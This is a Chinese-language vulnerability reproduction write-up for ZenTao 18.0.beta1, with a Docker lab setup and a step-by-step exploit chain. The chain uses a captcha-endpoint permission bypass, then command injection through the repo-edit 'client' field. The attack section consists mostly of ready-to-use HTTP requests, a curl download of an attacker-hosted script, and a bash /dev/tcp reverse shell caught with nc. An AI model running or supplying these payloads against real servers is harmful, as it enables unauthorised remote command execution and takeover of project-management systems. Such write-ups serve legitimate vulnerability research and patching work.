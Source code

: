 # 禅道 18.0.beta1 版本 权限绕过到命令执行漏洞

> **Created by：** A-little-dragon
>
> **Team：** TracelessSec
>
> **漏洞描述：** 禅道 18.0.beta1 版本 权限绕过到命令执行漏洞

# 0x01 简介

禅道是第一款国产的开源项目管理软件，主要管理思想基于Scrum方法论，内置了产品管理和项目管理，同时又根据国内研发现状补充了测试管理、计划管理、发布管理、文档管理、事务管理等功能，在一个软件中就可以将软件研发中的需求、任务、bug、用例、计划、发布等要素有序的跟踪管理起来，完整地覆盖了项目管理的核心流程。

# 0x02 漏洞描述

禅道17.4以下版本存在权限绕过到命令执行漏洞。该漏洞是由于禅道项目管理系统权限认证存在缺陷导致，攻击者可利用该漏洞在未授权的情况下，通过权限绕过在服务器执行任意命令。

# 0x03  影响版本

|        | 影响版本                                        |
| ------ | ----------------------------------------------- |
| 企业版 | 7.4以下的未知版本<=version<=8.0.beta1 8.0.beta2 |
| 开源版 | 17.4以下的未知版本<=version<=18.0.beta1         |
| 旗舰版 | 3.4以下的未知版本<=version<=4.0.beta1           |

# 0x04 环境搭建

官网地址：[https://www.zentao.net/page/download-new.html#/](https://www.zentao.net/page/download-new.html#/)

下载版本：18.0.beta1

将该版本下载至linux centos中的opt目录下，解压后，进入zbox目录

```bash
# 拉取镜像
docker pull easysoft/zentao:18.0.beta1

# 启动容器
docker run --name zentao -p 80:80 -v /www/zentaopms:/www/zentaopms -v /www/mysqldata:/var/lib/mysql -e MYSQL_ROOT_PASSWORD=123456 -d easysoft/zentao:18.0.beta1

# 运行脚本 部署环境
./zbox start
```

执行完上面3条命令后，浏览器直接访问 `http://宿主机IP:宿主机映射端口`，一直点下一步即可完成配置。

# 0X05 漏洞复现

登陆后，Burpsuite抓包后，发送到重发器中并修改为以下内容

```bash
GET /misc-captcha-user.html HTTP/1.1
Host: 192.168.81.173
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
X-Requested-With: XMLHttpRequest
Cookie: zentaosid=u6vl6rc62jiqof4g5jtle6pft2; device=desktop; theme=default
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
```

修改完毕后放包，接着再次修改请求包内容

```bash
POST /repo-create.html HTTP/1.1
Host: 192.168.81.173
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
Referer: http://192.168.81.173//repo-edit-1-0.html
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
X-Requested-With: XMLHttpRequest
Cookie: zentaosid=u6vl6rc62jiqof4g5jtle6pft2; device=desktop; theme=default
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 111

product%5B%5D=1&SCM=Gitlab&name=66666&path=&encoding=utf-8&client=&account=&password=&encrypt=base64&desc=&uid=
```

结果如下：

![Untitled](image/Untitled.png)

再次修改请求包内容，此时返回包中会包含命令执行的结果

```bash
POST /repo-edit-10000-10000.html HTTP/1.1
Host: 192.168.81.173
Content-Length: 26
Referer: http://192.168.81.173//repo-edit-1-0.html1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
X-Requested-With: XMLHttpRequest
Cookie:  zentaosid=u6vl6rc62jiqof4g5jtle6pft2;; device=desktop; theme=default
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded

SCM=Subversion&client=`id`
```

![Untitled](image/Untitled%201.png)

攻击者本地创新文件`1.sh` ，并写入反弹shell脚本命令

```bash
bash -i >& /dev/tcp/192.168.81.188/8888 0>&1'
```

![Untitled](image/Untitled%202.png)

在该文件所在目录下打开cmd，使用python3启动一个http服务器

```bash
python3 -m http.server 8080
```

![Untitled](image/Untitled%203.png)

再次新建cmd，使用nc监听8888端口

```bash
nc -lnvp 8888
```

![Untitled](image/Untitled%204.png)

burpsuite修改请求包如下：

```bash
POST /repo-edit-10000-10000.html HTTP/1.1
Host: 192.168.81.173
Content-Length: 26
Pragma: no-cache
Referer: http://192.168.81.173//repo-edit-1-0.html1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
X-Requested-With: XMLHttpRequest
Cookie:  zentaosid=u6vl6rc62jiqof4g5jtle6pft2;; device=desktop; theme=default
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded

SCM=Subversion&client=`curl http://攻击者IP:端口/1.sh -o /tmp/1.sh`
```

放包后，再次修改请求包内容

```bash
POST /repo-edit-10000-10000.html HTTP/1.1
Host: 192.168.81.173
Content-Length: 26
Pragma: no-cache
Referer: http://192.168.81.173//repo-edit-1-0.html1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
X-Requested-With: XMLHttpRequest
Cookie:  zentaosid=u6vl6rc62jiqof4g5jtle6pft2;; device=desktop; theme=default
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded

SCM=Subversion&client=`bash 1.sh`
```

成功拿到shell

![Untitled](image/Untitled%205.png)
